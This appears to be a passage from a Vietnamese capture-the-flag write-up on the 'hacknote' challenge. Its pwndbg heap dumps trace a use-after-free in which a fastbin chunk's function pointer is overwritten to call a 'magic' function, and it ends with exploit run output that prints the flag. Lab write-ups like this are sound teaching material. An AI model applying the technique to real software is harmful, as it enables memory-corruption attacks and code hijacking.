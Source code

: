 ```ruby
0x846b030	0x00000000	0x00000000	........
0x846b038	0x00000000	0x00000011	........	 <-- fastbins[0x10][0]
0x846b040	0x0846b000	0x0846b050	..F.P.F.
0x846b048	0x00000000	0x00000029	....)...	 <-- fastbins[0x28][0]
0x846b050	0x0846b010	0x0000000a	..F.....
0x846b058	0x00000000	0x00000000	........
0x846b060	0x00000000	0x00000000	........
0x846b068	0x00000000	0x00000000	........
0x846b070	0x00000000	0x00020f91	........	 <-- Top chunk
```
fastbins
```ruby
pwndbg> fastbins 
fastbins
0x10: 0x846b038 —▸ 0x846b000 ◂— 0x0
0x18: 0x0
0x20: 0x0
0x28: 0x846b048 —▸ 0x846b010 ◂— 0x0
0x30: 0x0
0x38: 0x0
0x40: 0x0
```

Sau khi add vào note 2
```ruby
pwndbg> vis

0x846b000	0x00000000	0x00000011	........
0x846b008	0x08048986	0x0846b00a	......F.	// địa chỉ magic đã overwrite vào fd
0x846b010	0x00000000	0x00000029	....)...	 <-- fastbins[0x28][1]
0x846b018	0x00000000	0x0000000a	........
0x846b020	0x00000000	0x00000000	........
0x846b028	0x00000000	0x00000000	........
0x846b030	0x00000000	0x00000000	........
0x846b038	0x00000000	0x00000011	........
0x846b040	0x0804865b	0x0846b008	[.....F.
0x846b048	0x00000000	0x00000029	....)...	 <-- fastbins[0x28][0]
0x846b050	0x0846b010	0x0000000a	..F.....
0x846b058	0x00000000	0x00000000	........
0x846b060	0x00000000	0x00000000	........
0x846b068	0x00000000	0x00000000	........
0x846b070	0x00000000	0x00020f91	........	 <-- Top chunk
```
Vì ta đã overwrite được địa chỉ fd của note 0 (đáng lẽ ra vị trí này là của hàm put), nên ta có thể execute được hàm magic
```py
$ python exp.py 
[+] Starting local process './hacknote': pid 43143
[*] running in new terminal: /usr/bin/gdb -q  "./hacknote" 43143
[-] Waiting for debugger: debugger exited! (maybe check /proc/sys/kernel/yama/ptrace_scope)
[*] Switching to interactive mode
flag{use_after_free}----------------------
       HackNote       
----------------------
 1. Add note          
 2. Delete note       
 3. Print note        
 4. Exit              
----------------------
Your choice :$  
```